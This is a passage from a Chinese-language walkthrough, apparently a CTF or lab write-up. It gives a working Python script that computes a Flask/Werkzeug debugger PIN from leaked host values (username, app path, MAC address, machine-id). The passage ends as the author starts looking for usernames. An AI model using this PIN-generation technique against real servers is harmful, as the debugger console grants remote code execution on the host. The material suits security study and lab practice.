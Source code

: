### 尝试爆破pin

尝试一下这个脚本：

```bash
import hashlib
from itertools import chain
probably_public_bits = [
    'dentacare',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/opt/appli/env/lib/python3.11/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

先找一下是否存在相关信息的内容，找到几个用户名：
